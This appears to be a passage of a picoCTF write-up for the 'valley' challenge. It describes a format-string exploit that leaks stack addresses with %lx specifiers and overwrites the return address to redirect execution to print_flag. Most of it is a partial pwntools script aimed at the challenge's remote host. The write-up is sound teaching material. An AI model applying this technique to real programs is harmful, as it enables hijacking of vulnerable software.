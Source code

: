 1. View the return address using `%<num>$lx`. In this case, through trial and error, I found it to be `%21$lx`. Through looking at the disassembled binary, the return address is the offset + `0x1413`, the `print_flag` address is `0x1269`, so we subtract `0x1413` and add `0x1269` to get our `print_flag` address
2. Compute the address holding the return address on the stack. Through trial and error, I found `%20$lx` holds the previous base pointer that was backed up onto the stack at the beginning of the function. Subtracting 8 bytes gives us the address that we want
3. One byte at a time, write the new address into the return address. Strictly speaking, since we know that `print_flag` and the original return address are close in memory, and will share the highest 5 bytes, we only really need to write the lowest 3 bytes of the return address

Since we need to do a lot of computation at runtime as we interface with the program, we use pwntools

```py
from pwn import *
from sys import argv

conn = None
# Back up what we write into a text file
f = open('in.txt', 'wb')

# Helper functions to write to both the process and the text file
def write(s: bytes):
	conn.send(s)
	f.write(s)

def writeline(s: bytes):
	conn.sendline(s)
	f.write(s)
	f.write(b'\n')

# Setup connection to either use local binary or remote
if len(argv) < 2 or argv[1] == '-l':
	conn = process('./valley')
else:
	conn = remote('shape-facility.picoctf.net', 51442)

# Step 1: Leak an address relative to the instruction pointer
# Most easily done with the return address

# Leak 8-byte return address
writeline(b'%21$lx')
conn.recvline()
ret_addr = int(conn.recvline().decode().strip().split(': ')[1], 16)
print(f"Return address: {hex(ret_addr)}")
flag_addr = ret_addr - 0x1413 + 0x1269
print(f"Flag func address: {hex(flag_addr)}")

# Step 2: Leak an address on the stack to compute the address holding the return address

# Gets stack address of base next pointer
writeline(b'%20$lx')
ret_addr_loc = int(conn.recvline().decode().strip().split(': ')[1], 16) - 8
print(f"Return address location: {hex(ret_addr_loc)}")

# Step 3: Write flag function address directly into return address on stack

def write_byte(byte, addr):
	payload = f'%{byte}c'

	# Keep total payload length multiple of 8
	FMT_SPEC_LEN = 7
	padding = '+' * (8 - ((len(payload) + FMT_SPEC_LEN) % 8))
	total = len(payload) + FMT_SPEC_LEN + len(padding)
```
